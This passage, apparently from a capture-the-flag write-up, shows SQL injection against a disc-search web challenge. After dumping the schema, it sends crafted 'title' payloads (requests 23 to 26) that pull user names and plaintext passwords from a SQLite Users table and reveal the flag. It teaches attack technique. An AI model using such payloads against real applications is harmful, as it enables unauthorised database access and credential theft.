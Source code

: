     <li>CREATE TABLE `Users` (
    	`id`	INTEGER PRIMARY KEY AUTOINCREMENT,
    	`name`	TEXT,
    	`password`	TEXT
    )</li>
    
    <li>CREATE TABLE sqlite_sequence(name,seq)</li>
    
    <li>Dark Side of The Moon</li>

We have dumped the columns of all the tables. At a first glance, we are interested in the table 'Users'.


## (4) DATA EXTRACTION

We will try to extract the data from the table 'Users'. If we send the following request:

REQUEST 23 (injection in 'title')

    name,password FROM Users --

The sentence built in the backend should be:

SELECT name,password FROM Users -- FROM Discs WHERE author=name

The string on the right of '--' is interpreted as a comment and thus it is not executed. So we get:

RESPONSE 23

    <h1> Encontrados los siguientes discos: </h1>
    <li>Lannister</li>
    <li>Kuro</li>
    <li>Juan</li>

Now we build specific requests to get the password of each user:

REQUEST 24 (injection in 'title')

    password FROM Users WHERE name='Lannister' --

RESPONSE 24

    <h1> Encontrados los siguientes discos: </h1>
    <li>Charles</li>

REQUEST 25 (injection in 'title')

    password FROM Users WHERE name='Kuro' --

RESPONSE 25

    <h1> Encontrados los siguientes discos: </h1>
    <li>Pass</li>

REQUEST 26 (injection in 'title')

    password FROM Users WHERE name='Juan' --

RESPONSE 26

    <h1> Encontrados los siguientes discos: </h1>
    <li>flag{_congrats_you_have_sql_injection}</li>

So we finally get the flag:

    flag{_congrats_you_have_sql_injection}

## (5) USEFUL REFERENCES

http://pentestmonkey.net/category/cheat-sheet/sql-injection

http://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref

